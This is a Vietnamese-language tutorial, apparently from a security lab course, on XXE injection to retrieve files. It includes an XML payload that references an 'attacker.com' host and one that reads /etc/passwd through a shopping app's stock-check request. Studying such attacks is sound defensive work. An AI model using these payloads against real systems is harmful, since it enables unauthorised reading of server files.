 # Overview:

Khai thác XXE để lấy các tệp tin, trong đó một thực thể ngoại vi được định nghĩa chứa nội dung của một tệp tin, và được trả về trong phản hồi của ứng dụng.

Việc khai thác XXE để lấy các tệp tin là khi kẻ tấn công chèn một thực thể ngoại vi vào tài liệu XML, chứa nội dung của tệp tin. Khi ứng dụng xử lý XML, nội dung của thực thể ngoại vi này được trả về trong phản hồi của ứng dụng.

Ví dụ:

```xml
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "http://attacker.com/malicious-file">
]>
<data>&xxe;</data>
```

Trong ví dụ trên, kẻ tấn công chèn một thực thể ngoại vi `xxe` và truy cập tệp tin `malicious-file` từ xa thông qua URL `http://attacker.com/malicious-file`. Dữ liệu từ tệp tin này sẽ được đưa vào tài liệu XML và trả về trong phản hồi của ứng dụng.

Việc khai thác XXE để lấy các tệp tin có thể gây ra những vấn đề bảo mật nghiêm trọng, bao gồm tiết lộ thông tin nhạy cảm, tấn công từ chối dịch vụ (DoS) và thực hiện các cuộc tấn công từ xa.

# Example:

Để thực hiện một cuộc tấn công tiêm nạp XXE nhằm lấy một tệp tin tùy ý từ hệ thống tệp tin của máy chủ, bạn cần sửa đổi XML gửi đi theo hai cách sau:

1. Thêm (hoặc chỉnh sửa) một phần tử DOCTYPE mô tả một thực thể bên ngoài chứa đường dẫn đến tệp tin.
2. Chỉnh sửa một giá trị dữ liệu trong XML được trả về trong phản hồi của ứng dụng, để sử dụng thực thể bên ngoài đã được định nghĩa.

Ví dụ, giả sử một ứng dụng mua sắm kiểm tra mức hàng tồn kho của một sản phẩm bằng cách gửi XML sau đến máy chủ:
```xml
<product>
  <id>123</id>
</product>
```

Để thực hiện cuộc tấn công XXE, bạn cần sửa đổi XML để chèn một phần tử DOCTYPE và một thực thể bên ngoài. Ví dụ:

```xml
<!DOCTYPE product [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<product>
  <id>&xxe;</id>
</product>
```

Trong ví dụ này, chúng ta đã chèn một phần tử DOCTYPE với một thực thể bên ngoài có tên là `xxe` và giá trị là `file:///etc/passwd`. Khi ứng dụng xử lý XML này, nó sẽ đọc nội dung của tệp `/etc/passwd` và trả về trong phản hồi của ứng dụng.

Ta sẽ thực hành ở đây.

